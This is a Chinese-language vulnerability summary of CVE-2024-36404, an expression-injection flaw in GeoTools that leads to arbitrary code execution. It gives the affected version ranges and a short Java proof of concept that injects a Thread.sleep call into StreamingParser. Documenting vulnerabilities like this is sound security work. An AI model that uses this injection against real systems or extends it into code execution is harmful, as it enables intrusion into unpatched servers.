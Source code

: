 # CVE-2024-36404

>GeoTools是一个用于处理地理空间数据的开源代码库，并且支持OGC过滤器表达式语言的解析和编码。

## 来源

[https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w](https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w)

## 简介

GeoTools的受影响版本在处理用户输入的XPATH表达式时未做处理直接传递给了commons-jxpath库进行解析，由于commons-jxpath可以执行任意代码，从而导致任意代码执行漏洞。

## 漏洞类型

表达式注入

## 影响范围

-   30.0 <= org.geotools:gt-complex < 30.4
-   org.geotools:gt-complex < 29.6
-   31.0 <= org.geotools:gt-app-schema < 31.2
-   30.0 <= org.geotools.xsd:gt-xsd-core < 30.4
-   30.0 <= org.geotools:gt-app-schema < 30.4
-   org.geotools:gt-app-schema < 29.6
-   31.0 <= org.geotools.xsd:gt-xsd-core < 31.2
-   org.geotools.xsd:gt-xsd-core < 29.6
-   31.0 <= org.geotools:gt-complex < 31.2

## POC

The following inputs to StreamingParser will delay the response by five seconds:

```java
new org.geotools.xsd.StreamingParser(
	new org.geotools.filter.v1_0.OGCConfiguration(),
	new java.io.ByteArrayInputStream("<Filter></Filter>".getBytes()),
	"java.lang.Thread.sleep(5000)")
    .parse();
```

### 



